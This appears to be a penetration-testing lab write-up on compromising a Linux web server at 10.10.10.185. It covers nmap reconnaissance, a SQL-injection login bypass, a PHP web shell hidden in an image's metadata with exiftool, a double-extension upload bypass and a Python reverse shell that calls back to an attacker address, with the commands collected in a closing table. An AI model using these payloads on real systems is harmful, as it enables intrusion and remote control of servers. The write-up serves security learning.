









# LINUX WEB SERVER 10.10.10.185 VULNERABILITY and EXPLOITATION #

# Introduction

Penetration testing session was conducted in order to determine Linux Web Server 10.10.10.185 exposure to a targeted attack. All activities were conducted in a manner that simulated a malicious actor engaged in a targeted attack against Linux Web Server and both Victim (Linux Web Server) and Attacker (Kali) were hosted on Virtual Box.

# Methodology

##

## Reconnaissance

Conduct Nmap scan in order to find out which ports are open.

Two ports identified after the Nmap scan,

- **22/tcp – Open SSH**

- **80/tcp – Open HTTP**

**Command used in Nmap Scan** - nmap -sC -sV -V 10.10.10.185

# Exploitation

After the Nmap Scan tried to find a vulnerability inside the server. Using open port tcp/80 (Open HTTP) try to brows the **10.10.10.185** server.

_Fig: 3 | Home page of the server._

There is a login. Tried to bypass the login and can successfully bypass the login using SQL Injection to the password filed. In this password field vulnerable to SQL Injection.

_Fig: 4 | SQL Injection to Password Field._

It&#39;s directed to the image uploading page. In this they allowed only jpg, jpeg, png image file formats.

_Fig: 5 | image uploading field._

_Fig: 6 | Allowed image formats._

Then using this upload an image step try do an exploit so that inserting a payload to the image. Using exiftool.

_Fig: 7 | Payload with image._

Then this need to run using PHP so that change the file format as _ **php.jpg** __._ This only check the last format because of the weakness of the verification so easily can upload the image.

_Fig: 8 | Change the image format._

The check the location of the image which posted already in the server. Copy the location and rename the image name as _ **kalpani.php.jpg** __._ Then input the **cmd=ls** command to check whether is it working or not.

_Fig: 9 | rename the file name in the location and command input._

It works. So now can execute the command in here and also can view the files in web directory.

_Fig: 10 | view web directory files._

After that take the revers shell python script from pentestmonkey cheat sheet and change the python version to python3 and include the python script to location and run. After this can take the web shell.

_Fig: 11 | Include the python script._

# Proof

**Exploitation**

_Fig: 12 | Web Shell._

#

#

# Command used

| Nmap Scan | nmap -sC -sV 10.10.10.185 |
| --- | --- |
| login bypass | username = anypassword = 1&#39; or &#39;1&#39;=&#39;1 |
| bypass file upload filter URL | https://github.com/xapax/security/blob/master/bypass\_image\_upload.md |
| Image bypass command | exiftool -Comment=&#39;\&lt;?php echo &quot;\&lt;pre\&gt;&quot;; system($\_GET[&#39;cmd&#39;]); ?\&gt;&#39; kalpani.jpg |
| image file format rename | kalpani.php.jpg |
| image location, change file name and give cmd-ls to vies directory | http://10.10.10.185/images/uploads/kalpani.php.jpg?cmd=ls |
| reverse shell script to image location | http://10.10.10.185/images/uploads/test.php.jpg?cmd=python3 -c &#39;import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect((&quot;10.10.14.168&quot;,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([&quot;/bin/sh&quot;,&quot;-i&quot;]);&#39; |
| listling check | nc -nlvp 1234 |
| directory list | ls |

# Conclusion

Even though the above evidence demonstrates that Linux web server is vulnerable. Using SQL Injection can bypass the server password fields in login page. Used pentestmonkey cheat sheet to take reverse shell python script, exiftool used to include payload in to the selected image.

